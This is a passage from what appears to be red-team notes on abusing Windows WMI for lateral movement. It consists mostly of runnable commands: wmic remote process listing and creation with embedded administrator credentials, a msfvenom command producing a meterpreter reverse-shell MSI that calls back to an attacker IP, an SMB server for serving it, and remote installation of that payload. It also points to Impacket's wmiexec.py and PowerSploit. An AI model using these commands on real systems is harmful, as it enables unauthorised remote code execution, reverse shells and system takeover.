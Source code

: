 - Perform remote query

```powershell
wmic /node:10.10.10.137 /user:Administrator /password:H3rmesk1t@2023 process list brief
# /node, specify the address of the remote host
# /user, specify the user name of the remote host
# /password, specify the user's password
```

- Create remote processes

```powershell
# Create a process on the remote host by calling Win32_Process.Create method and start CMD to execute the command. Since WMIC does not echo when executing the command, it can write the execution result to a file and then read the file in other ways.
wmic /node:10.10.10.137 /user:Administrator /password:H3rmesk1t@2023 process call create "cmd.exe /c ipconfig > C:\result.txt"
```

- Remote installation of `MSI` files

```powershell
# By calling the Win32_Product.Install method, you can control the remote host to install malicious MSI files, thereby obtaining permissions
# First use Metasploit to generate a malicious MSI file
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.31.207 LPORT=4445 -f msi -o shell.msi

# Then build an SMB shared server and put the generated MSI files into the shared directory. Then remotely load the malicious MSI files through the UNC path and install them.
mkdir /root/share
python3 smbserver.py evilsmb /root/share -smb2support

wmic /node:10.10.10.137 /user:Administrator /password:H3rmesk1t@2023 product call install PackageLocation="\\192.168.31.207\evilsmb\shell.msi"
```

## Common tools for utilization

### WMIExec

The `wmiexec.py` of the `Impacket` project can execute commands on a remote host through `WMI` in a fully interactive or semi-interactive manner. Note that the tool requires the remote host to enable ports `135` and `445`, where `445` is used to transfer echoes for command execution.

```powershell
python3 wmiexec.py HACK-MY/Administrator:H3rmesk1t\@2023@10.10.10.137

# python3 wmiexec.py <Domian>/<Username>:<Password>@<IP>
```

Under the Windows platform, you can use `PyInstaller` to package `wmiexec.py` into a separate `exe` executable file for running.

### Invoke-WmiCommand

`Invoke-WmiCommand.ps1` is a script in the `PowerSploit` project. You can remotely execute commands by calling `WMI` of `PowerShell`.
